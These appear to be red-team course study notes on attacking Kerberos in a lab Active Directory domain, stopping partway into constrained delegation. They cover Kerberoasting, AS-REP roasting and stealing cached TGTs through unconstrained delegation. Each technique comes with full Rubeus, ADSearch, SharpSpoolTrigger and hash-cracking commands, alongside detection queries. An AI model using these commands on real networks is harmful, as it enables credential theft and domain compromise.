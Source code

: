 # Kerberos

When a user logs onto their workstation it sends an AS-REQ to the Key Distribution Center (KDC)/Domain Controller (DC), requesting a TGT using a secret key derived from the user's password. KDC verifies the secret key with the password it has stored in Active Directory for that user. If valid it returns the TGT. The TGT contains the user's identity and is encrypted with the KDC secret key (the krbtgt account). When the user attempts to access a resource using Kerberos (e.g. a file share), the client looks up the associated Service Principal Name (SPN), and requests a Ticket Granting Service Ticket (TGS) for that service from the KDC, and presents its TGT as a means of proving they're valid. The KDC returns a TGS for the service, which is then presented to the actual service. The service inspects the TGS and decides whether it should grant the user access.

| Client | | KDC | | Server |
|:--:|:--:|:--:|:--:|:--:|
| Request TGT (AS-REQ) | -> | • | | |
| • | <- | Return TGT (AS-REP) |  |  |
| Request TGS for service (TGS-REQ) | -> | • | | |
| • | <- | Return TGs (TGS-REP) |  |  |
| Present TGS to service | -> | -> | -> | • |
| • | <- | <- | <- | Grant access |

## Kerberoasting

Services run on a machine under the context of a user account; local (LocalSystem, LocalService, NetworkService) or domain accounts (e.g. DOMAIN\mssql). A Service Principal Name (SPN) is a unique identifier of a service instance. SPNs are used with Kerberos to associate a service instance with a logon account, and are configured on the User Object in AD (e.g. MSSQLSvc.sql-2.dev.corp.io:1433 in the service's properties).

Part of the TGS returned by the KDC is encrypted with a secret derived from the password of the user account running that service. Kerberoasting requests TGSs for services running under the context of domain accounts and cracks them offline to reveal their plaintext passwords. Rubeus Kerberoast can be used to perform the kerberoasting. Running it without further arguments will roast every account in the domain that has an SPN (excluding krbtgt). 

```beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap``` returns long hashes which can be cracked offline to recover the plaintext passwords for the accounts. Use:

* ```john --format=krb5tgs --wordlist=wordlist hashes``` or
* ```hashcat -a 0 -m 13100 hashes wordlist```

...but some hash format incompatibility with john. Remove the SPN from: 

    $krb5tgs$23$*mssql_svc$dev.cyberbotic.io$MSSQLSvc...

to: 

    $krb5tgs$23$*mssql_svc$dev.cyberbotic.io...


But, honeypot accounts can be configured with a "fake" SPN, which will generate a 4769 event when roasted. Since these events will never be generated for this service, it provides a high-fidelity indication of this attack: ```event.code: 4769 and winlog.event_data.ServiceName: honey_svc```. Safer to enumerate candidate users first and roast them selectively. This LDAP query will find domain users who have an SPN set: 

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName

Then roast an individual account: ```execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap```

## ASREP Roasting

If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline for the plaintext password. This is enabled on the User Object, often seen on Linux accounts. 

Of course don't asreproast every account in the domain: 

    execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap

Use:

* ```john --format=krb5asrep --wordlist=wordlist squid_svc``` or
* ```hashcat -a 0 -m 18200 squid_svc wordlist```

Catch: ASREPRoasting generates a 4768 event with RC4 encryption and a preauth type of 0:

    event.code: 4768 and winlog.event_data.PreAuthType: 0
    winlog.event_data.TicketEncryptionType: 0x17


## Unconstrained Delegation

Delegation allows a user or machine to act on behalf of another user to another service (e.g. user authenticates to a front-end web app that serves a back-end database -- the app authenticates to the DB using Kerberos as the authenticated user). When set up, unconstrained delegation makes KDC include the user's TGT inside the TGS. In this example, when the user accesses the Web Server, it caches the user's TGT. When the Web Server needs to access the DB Server on behalf of that user, it uses the TGT to request a TGS for the database service. It will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached and can be extracted memory for nefarious use against other services in the domain.

To return all computers that are permitted for unconstrained delegation: ```execute-assembly ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname```

Domain Controllers are always permitted for unconstrained delegation.

If we compromise WEB$ and wait or socially engineer a privileged user to interact with it, we can steal their cached TGT.  Interaction can be via any Kerberos service, so something as simple as dir \\web\c$ is enough. Rubeus triage will show all the tickets that are currently cached. TGTs can be identified by the krbtgt service.

    beacon> getuid
    [*] You are NT AUTHORITY\SYSTEM (admin)
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

Extract this TGT and leverage it via a new logon session:

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
    beacon> steal_token 1540
    beacon> ls \\dc-2.dev.cyberbotic.io\c$

For the lab: A task running on Workstation 1 as nlamb interacts with WEB$ every 5 minutes. If the ticket is not there, wait and try again.

Can also get a TGT for accounts by forcing them to authenticate remotely to the machine. (See the NTLM Relaying module in  Pivoting for tools for this.) This time, force the domain controller to authenticate to the web server to steal its TGT. Also use Rubeus' monitor command, which continuously monitors for and extract new TGTs as they get cached. It's a superior strategy when compared to running triage manually because there's little chance of us not seeing or missing a ticket.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

then run SharpSpoolTrigger:

    beacon> execute-assembly SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

Where:

  * DC-2 is the target
  * WEB is the listener

Rubeus will then capture the ticket. To stop Rubeus, use the jobs and jobkill commands.

Machine TGTs are leveraged slightly differently -- see S4U2Self Abuse later.  

## Constrained Delegation

Constrained delegation is a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user.  It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.




